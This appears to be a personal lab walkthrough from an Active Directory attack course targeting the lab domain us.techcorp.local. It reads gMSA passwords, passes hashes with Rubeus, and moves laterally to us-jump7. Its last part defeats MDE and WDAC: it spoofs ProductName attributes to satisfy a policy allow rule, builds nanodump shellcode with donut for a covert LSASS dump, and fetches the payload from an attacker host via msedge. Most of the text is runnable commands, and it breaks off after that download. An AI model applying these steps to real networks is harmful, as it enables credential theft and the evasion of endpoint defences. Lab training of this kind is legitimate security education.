 
Task 
• Enumerate gMSAs in the us.techcorp.local domain. 
• Enumerate the principals that can read passwords from any gMSAs. 
• Compromise one such principal and retrieve the password from a gMSA. 
• Find if the gMSA has high privileges on any machine and extract credentials from that machine. 
• Move laterally and extract credentials on us-jump bypassing MDE.


To enumerate gMSAs, we can use the ADModule

```
Get-ADServiceAccount -Filter *
```

Enumerate the Principals that can read the password blob:

```
Get-ADServiceAccount -Identity jumpone -Properties * | select PrincipalsAllowedToRetrieveManagedPassword
```

Recall that we got secrets of provisioning svc from us-mailmgmt. Start a new process as the provisioningsvc user. Run the below command from an elevated cmd shell. Once again, using encoded parameters with ArgSplit.bat:

```
C:\AD\Tools\Loader.exe -Path C:\AD\Tools\Rubeus.exe -args %Pwn% /user:provisioningsvc /aes256:a573a68973bfe9cbfb8037347397d6ad1aae87673c4f5b4979b57c0b745aee2a /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```

In the new cmd session, run the following commands to get the password blob:

```
$Passwordblob = (Get-ADServiceAccount -Identity jumpone -Properties msDS-ManagedPassword).'msDS-ManagedPassword'
```

![[Pasted image 20250318001632.png]]

Using the DSInternals module, lets decode the password and convert it to NTLM hash (as the clear-text password is not writable)

```
Import-Module C:\AD\Tools\DSInternals_v4.7\DSInternals\DSInternals.psd1
```

```
$decodedpwd = ConvertFrom-ADManagedPasswordBlob $Passwordblob
```

```
ConvertTo-NTHash –Password $decodedpwd.SecureCurrentPassword
```

Now we can start a new process with the privileges of jumpone:

```
C:\AD\Tools\Loader.exe -Path C:\AD\Tools\Rubeus.exe -args %Pwn% /user:jumpone /rc4:1260ca22c2a3b131c0d3041bcdfcbfab /opsec /force /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```

![[Pasted image 20250318001822.png]]
Check for admin privileges on a machine in the target domain. Run the below commands in the process running with privileges of jumpone:

```
. C:\AD\Tools\Find-PSRemotingLocalAdminAccess.ps1
```

```
Find-PSRemotingLocalAdminAccess -Domain us.techcorp.local -Verbose
```


![[Pasted image 20250318002018.png]]

We have administrative access to US-Jump7 machine as jumpone. We can now access us-jump7 using winrs or PowerShell Remoting. When trying this in lab, note the name of us-jump7 in your lab instance.

### Credentials Extraction on us-jump - MDE Bypass

Let us now test to see if an EDR is enabled on the target using Invoke-EDRChecker.ps1 as follows. Run the following command in the process spawned as jumpone:

```
. C:\AD\Tools\Invoke-EDRChecker.ps1
```

```
Invoke-EDRChecker -Remote -ComputerName us-jump7
```

![[Pasted image 20250318002235.png]]

We find that Microsoft Defender for Endpoint (MDE) is enabled on the target us-jump.

Use winrs to access us-jump:

We can access us-jump using winrs in the process running as jumpone that we started above:

```
winrs -r:us-jump7 cmd
```

![[Pasted image 20250318002421.png]]

To avoid detections using commonly used lolbas such as whoami.exe, we can use the set u / set username command to enumerate our current user using environment variables. Trying to execute a lolbas such as wmic results in a failure as follows:

Exiting the shell and enumerating WDAC status using Get-CimInstance cmdlet we find that WDAC has been enabled on us-jump.

```
winrs -r:us-jump7 "powershell Get-CimInstance -ClassName Win32_DeviceGuard -Namespace root\Microsoft\Windows\DeviceGuard"
```

![[Pasted image 20250318002609.png]]

We can now attempt to copy and parse the WDAC config deployed on us-jump to find suitable bypasses and loopholes in the policy

```
dir \\usjump7.US.TECHCORP.LOCAL\c$\Windows\System32\CodeIntegrity
```

```
copy \\usjumpX.US.TECHCORP.LOCAL\c$\Windows\System32\CodeIntegrity\DG.bin.p7 C:\AD\Tools
```


![[Pasted image 20250318002742.png]]


We find a deployed policy named DG.bin.p7 / SiPolicy.p7b in the CodeIntegrity folder. Copy either policy binary back over to our studentVM.

Now spawn a new Powershell prompt on the student VM using Invisishell and import the CIPolicyParser.ps1 script to parse the copied policy binary.

```
. C:\AD\Tools\CIPolicyParser.ps1
```

```
ConvertTo-CIPolicy -BinaryFilePath C:\AD\Tools\DG.bin.p7 -XmlFilePath C:\AD\Tools\DG.bin.xml
```

![[Pasted image 20250318003312.png]]

![[Pasted image 20250318003413.png]]

This is a File Attribute Allow rule that allows a file (exe / dll) having the Product Name: "Vmware Workstation". We can attempt to abuse this rule by editing the File Attributes of an exe / dll of choice to match the Product Name mentioned. rcedit, is a tool that can be used to easily achieve this. 

MDE also has been enabled on us-jumpX as enumerated previously. We can now attempt to perform an LSASS dump on the target us-jump using a covert technique / tool to bypass MDE along with WDAC. We will be using the mockingjay POC (loader / dropper) along with nanodump shellcode to bypass MDE detections and perform a covert LSASS Dump.

To bypass WDAC we edit File Attributes to match the Product Name: "Vmware Workstation" on all required files (exe / dlls) of the mockingjay POC. Begin by editing File Attributes for all required mockingjay files using rcedit to match the Product Name: "Vmware Workstation" and zip all required contents as follows: 


NOTE: msvcp140.dll, vcruntime140.dll, vcruntime140_1.dll are mockingjay dependency DLLs (located at \windows\system32) which are transferred too because WDAC is enabled on the target and would block them, while mscorlib.ni.dll is the DLL with the free RWX section to perform Self Process Injection in.

```
cd C:\AD\Tools\mockingja
```

```
C:\AD\Tools\mockingjay\rcedit-x64.exe C:\AD\Tools\mockingjay\msvcp140.dll --set-version-string "ProductName" "Vmware Workstation"
```

```
C:\AD\Tools\mockingjay\rcedit-x64.exe C:\AD\Tools\mockingjay\vcruntime140.dll --set-version-string "ProductName" "Vmware Workstation"
```

```
C:\AD\Tools\mockingjay\rcedit-x64.exe C:\AD\Tools\mockingjay\vcruntime140_1.dll --set-version-string "ProductName" "Vmware Workstation"
```

```
C:\AD\Tools\mockingjay\rcedit-x64.exe C:\AD\Tools\mockingjay\mockingjay.exe --set-version-string "ProductName" "Vmware Workstation"
```

```
C:\AD\Tools\mockingjay\rcedit-x64.exe C:\AD\Tools\mockingjay\mscorlib.ni.dll --set-version-string "ProductName" "Vmware Workstation"
```

```
Compress-Archive -Path C:\AD\Tools\mockingjay\msvcp140.dll, C:\AD\Tools\mockingjay\vcruntime140.dll, C:\AD\Tools\mockingjay\vcruntime140_1.dll, C:\AD\Tools\mockingjay\mockingjay.exe, C:\AD\Tools\mockingjay\mscorlib.ni.dll -DestinationPath "C:\AD\Tools\mockingjay\mockingjay.zip"
```

![[Pasted image 20250318004034.png]]

Now convert nanodump into compatible  shellcode using donut along with the with the args: spoofcallstack (-sc), fork LSASS process before dumping (-f) and output the dump to a file named nano.dmp (-- write) to make it dump LSASS in a covert way.

NOTE: shellcode dosen't need to be edited using rcedit to bypass WDAC.

```
C:\AD\Tools\mockingjay\donut.exe -f 1 -p " -sc -f --write nano.dmp" -i C:\AD\Tools\mockingjay\nanodump.x64.exe -o C:\AD\Tools\mockingjay\nano.bin
```

![[Pasted image 20250318004119.png]]

Confirm that the mockingjay poc and nano.bin shellcode is undetected by AV using AmsiTrigger / DefenderCheck:

Now host mockingjay.zip and nano.bin on our student VM using HFS. Make sure firewall is disabled before doing so. From the process running with privileges of jumpone, connect to us-jumpX and then download mockingjay.zip using msedge. 

NOTE: Using commonly abused binaries such as certutil for downloads, will result in a 
detection on MDE. Wait a few seconds for the download to complete.

```
 winrs -r:us-jump7 cmd
```

```
"C:\Program Files (x86)\Microsoft\Edge\Application\msedge.exe" --incognito http://192.168.100.139/mockingjay.zip
```
